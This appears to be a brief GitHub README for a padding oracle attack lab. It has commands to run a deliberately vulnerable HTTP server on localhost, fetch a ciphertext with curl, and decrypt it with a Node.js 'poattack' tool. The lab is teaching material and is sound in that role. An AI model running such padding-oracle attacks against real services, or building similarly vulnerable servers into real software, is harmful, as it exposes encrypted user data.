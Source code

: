 # POA-lab
Padding Oracle Attack Lab

**Run Vulnrable HTTP Server**
$ `python3 app.py 8000`

**Attack Using Nodejs Tool**
*get the ciphertext*
$ `curl localhost:8000/?action=encrypt`

*use the tool to attack*
$ `poattack decrypt 'http://localhost:8000/?action=process&cipher=' hex:9693699cd2a2ecd52dbe61a7f1daa2d8b7f01937fdc11b19be1df88bd895484e7c5c6a83fdd8107a85330cda4dc68d8997b583338162762dcda7fd14d53b224e8a42d6abfac90aed816d433e3d1d5cd3 16 500`
